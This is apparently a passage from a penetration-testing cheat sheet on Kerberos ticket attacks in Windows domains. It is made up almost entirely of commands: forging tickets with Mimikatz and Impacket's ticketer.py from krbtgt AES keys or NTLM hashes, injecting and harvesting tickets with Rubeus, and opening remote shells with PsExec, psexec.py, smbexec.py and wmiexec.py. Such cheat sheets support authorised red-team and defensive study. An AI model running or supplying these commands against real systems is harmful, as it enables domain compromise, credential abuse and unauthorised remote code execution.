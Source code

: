 * with aesKey

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /domain:$DOMAIN/sid:$DOMAIN_SID /aes128:$KRBTGT_AES_128_KEY /user:$DOMAIN_USER /service:$SERVICE_SPN /target:$SERVICE_MACHINE_HOSTNAME
```
{% endcode %}

* with Mimikatz

```powershell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

### Rubeus

```powershell
Rubeus.exe ptt /ticket:<ticket_kirbi_file>
.\Rubeus.exe harvest /intercal:30
```

{% embed url="https://github.com/GhostPack/Rubeus" %}

* PsExec

```powershell
PsExec.exe -accepteula \\$REMOTE_HOSTNAME cmd
```

* in Kali Linux

### Impacket

* Commands
  * with NTLM

{% code overflow="wrap" %}
```powershell
ticketer.py -nthash $NTLM_HASH -domain-sid $DOMAIN_SID -domain $DOMAIN -SPN $SERVICE_SPN $DOMAIN_USER
```
{% endcode %}

* with aesKey

{% code overflow="wrap" %}
```powershell
ticketer.py -aesKey $AES_KEY -domain-sid $DOMAIN_SID -domain $DOMAIN -SPN $SERVICE_SPN $DOMAIN_USER
```
{% endcode %}

* Set TGT for impacket use

```basic
export KRB5CCNAME=<TGT_ccache_file>
```

* Execute remote commands
  * `psexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
  * `smbexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
  * `wmiexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
* [Impacket](https://github.com/SecureAuthCorp/impacket/releases/)
